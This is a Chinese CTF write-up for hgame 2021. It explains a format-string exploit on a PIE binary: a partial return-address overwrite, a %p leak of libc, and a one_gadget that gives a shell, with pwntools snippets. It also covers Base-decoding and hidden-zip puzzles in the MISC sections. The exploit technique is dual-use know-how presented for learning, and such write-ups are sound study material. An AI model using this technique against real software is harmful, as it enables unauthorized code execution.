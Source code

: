 
直接对着脚本解释，题目开了PIE，但PIE不能随机化地址的最后三位，所以可以通过部分覆盖返回地址来回到main函数

```
p.send('%p'*20+'\x6a'*1) #69 for main d2 for vuln d6
```

不写入`\x69`回到main开始的地址是因为`push rbp`会让后面的`printf`检查内存对齐的时候失败

通过第一次写入20个`%p`到printf泄露`libc_start_main`的地址，减去偏移拿到libc基址，这里用了一个比较丑的筛选地址的循环，python实在不算是会写，顶多能用

然后第二次的返回地址写入one_gadget

```python
one_gadget=libc+0x4f3e3
print("rbp:",cyclic_find('iaaajaaa'))
one_gadget_data= int.to_bytes(one_gadget,6,byteorder='little',signed=False)
#fmtstr_payload(29)
p.send('%x'*20)
p.send_raw(one_gadget_data)
```

原本我用的one_gadget是在`0x4f432`

```
0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
```

但是限制条件`*(rsp+0x40)==NULL`不满足，直接stuck

在`xiaoyu`学长的提示下，了解到可以通过gadget地址之前的指令调整rbp指向的值，于是调整成`0x4f3e3`，getshell

开nc连接题目，执行`cat /flag`拿到flag`hgame{b73c0d87f1c49e4e4e0962dcddd8f38c95fc835a2b4b66243444505229119328}`

## MISC

### Base全家福

上来给密文`R1k0RE1OWldHRTNFSU5SVkc1QkRLTlpXR1VaVENOUlRHTVlETVJCV0dVMlVNTlpVR01ZREtSUlVIQTJET01aVUdSQ0RHTVpWSVlaVEVNWlFHTVpER01KWElRPT09PT09`

直接丢进CyberChef，魔法棒提示Base64->Base32->Hex，直接拿到flag`hgame{We1c0me_t0_HG4M3_2021}`

### 不起眼压缩包的养成的方法

嗯，虽然图感觉不是特别还原，但还是要吹我惠美如画中仙

看到标题直接把图片后缀改.zip，发现非法，又改成.rar，能打开了，后来学到能用binwalk直接一把梭识别出拼接的文件

但是有密码，压缩包提示

```
Password is picture ID (Up to 8 digits)
```

一开始直接爆破，无果，后来经提示通过pixiv识图搜到了这张图[加藤惠](https://www.pixiv.net/artworks/70415155)，第一层压缩包的密码就是`70415155`
